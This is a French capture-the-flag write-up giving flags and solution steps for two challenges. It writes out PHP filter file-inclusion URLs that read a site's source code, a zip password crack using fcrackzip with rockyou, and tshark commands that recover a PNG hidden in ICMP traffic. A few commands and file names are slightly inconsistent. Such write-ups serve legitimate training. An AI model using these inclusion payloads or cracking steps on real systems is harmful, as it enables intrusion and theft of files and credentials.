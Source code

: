 `IMTLD{Th1s0neW4sSymPATH3t1c2}`

---
## 150 ArchDrive (2/3)
---

> Well done ! Do you think it is possible now to gain access to a user account ?

* après quelques recherhces, on remarque que les base64 filter php fonctionnent
* `https://.../?page=php://filTer/convert.base64-encode/resource=login.php`
* dans `login.php` on voit un `myfiles.php`
* `https://.../?page=php://filTer/convert.base64-encode/resource=myfiles.php`
* on a une liste de fichiers qu'on peut récupérer


```bash
# exemple de ressource
<li><a class="txt2" href="21f64da1e5792c8295b964d159a14491/lol.jpg">lol.jpg</a></li>

# lien associé
https://archdrive.santhacklaus.xyz/index.php?page=pHp://FilTer/convert.base64-encode/resource="+ le href précédent
```

```bash
# recup.zip est protégé par un mdp
$ fcrackzip -v -D -u -p ./rockyou.txt recup.zip
$ cat password.txt
```

`IMTLD{F1nd_Y0uR_W4y}`

---
## 200 Pong
---

> Our SIEM got alerted by a surprisingly high number of ICMP requests on the network. Investigate.

* fichier `.pcapng`
* rempli avec un grand nombre de paquets ICMP
* png ? dans le l'extension
* data dans les packets ICMP ? oui

```bash
$ tshark -r ./challenge.pcapng -T fields -e data

# on remarque que les echo request et echo reply ont les même data
# il faut donc eviter les doublons
$ tshark -r ./challenge.pcapng -T fields -e data | uniq

# les données sont en base16, il faut les transformer en ascii
# on les passe en base64 puis on decode
$ shark -r ./challenge.pcapng -T fields -e data | uniq |  xxd -ps -r | base64 -d > res.png

$ file res.png
test.png: PNG image data, 487 x 272, 8-bit/color RGBA, non-interlaced
```
